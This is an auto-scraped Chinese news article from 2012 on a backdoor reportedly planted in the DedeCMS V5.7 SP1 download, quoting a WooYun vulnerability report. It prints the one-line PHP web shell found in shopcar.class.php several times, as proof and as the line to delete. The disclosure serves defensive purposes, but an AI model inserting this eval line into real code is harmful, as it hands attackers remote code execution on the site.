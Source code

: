 title: 织梦CMS系统被曝植入后门70万网站资料或泄露
date: 2012-03-22 19:06:10
---

　以下内容通过织梦采集侠的RSS或页面监控采集功能对指定网站进行采集而来，每天定时定量采集更新，无需人工干预，文章来源于几大站长站，为了确保文章的可读性，关闭了伪原创功能，也保留了正文内的URL，仅开启搜索引擎优化功能!<br/><br/>　　2月21日消息，昨日乌云漏洞报告平台(http://www.wooyun.org/)发布漏洞报告，称国内知名开源CMS软件Dedecms被入侵种植后门，影响使用dedeadmin.com">dedecms的网站和企业，后门代码在/include/shopcar.class.php中，希望直接使用dedecms又未作审计的网站速度处理。360网站安全检测官方微博称经过工程师的测试，可以上传PHP后门来控制整个网站。目前已经将该后门加入到webscan网站安全扫描平台扫描库中，希望各网站及时进行扫描确认。<br/><br/>　　织梦内容管理系统(DedeCms)早期由IT柏拉图个人开发， 以简单、实用、开源闻名，受到广大个人站长的青睐。DedeCms站长用户众多，目前其官方还未对漏洞做出回应。希望广大使用Dedecms的站长能及时对网站进行安全检测，做好漏洞防范，等待官方给出解决办法。<br/><br/>　　漏洞概要<br/><br/>　　缺陷编号： WooYun-2012-05416<br/><br/>　　漏洞标题： Dedecms疑似被植入后门<br/><br/>　　相关厂商： Dedecms<br/><br/>　　漏洞作者： jsbug<br/><br/>　　提交时间： 2012-03-20<br/><br/>　　公开时间： 2012-03-20<br/><br/>　　漏洞类型： 成功的入侵事件<br/><br/>　　危害等级： 高<br/><br/>　　自评Rank： 10<br/><br/>　　漏洞状态： 未联系到厂商或者厂商积极忽略<br/><br/>　　漏洞来源： http://www.wooyun.org<br/><br/>　　分享漏洞： 腾讯微博 新浪微博 Twitter 网易微博 豆瓣<br/><br/>　　漏洞详情<br/><br/>　　披露状态：<br/><br/>　　2012-03-20： 积极联系厂商并且等待厂商认领中，细节不对外公开<br/><br/>　　2012-03-20： 厂商已经主动忽略漏洞，细节向公众公开<br/><br/>　　简要描述：<br/><br/>　　DedeCMS V5.7 SP1正式版<br/><br/>　　UTF-8 GBK版本疑似被植入一句话后门<br/><br/>　　前几日下载并不存在此代码<br/><br/>　　详细说明：<br/><br/>　　shopcar.class.php被植入一句话@eval(file_get_contents('php://input'));<br/>[upload]109[/upload]<br/>　　漏洞证明：<br/><br/>　　shopcar.class.php被植入一句话@eval(file_get_contents('php://input'));<br/>[upload]110[/upload]<br/><br/><br/>　　修复方案：<br/><br/>　　删除@eval(file_get_contents('php://input'));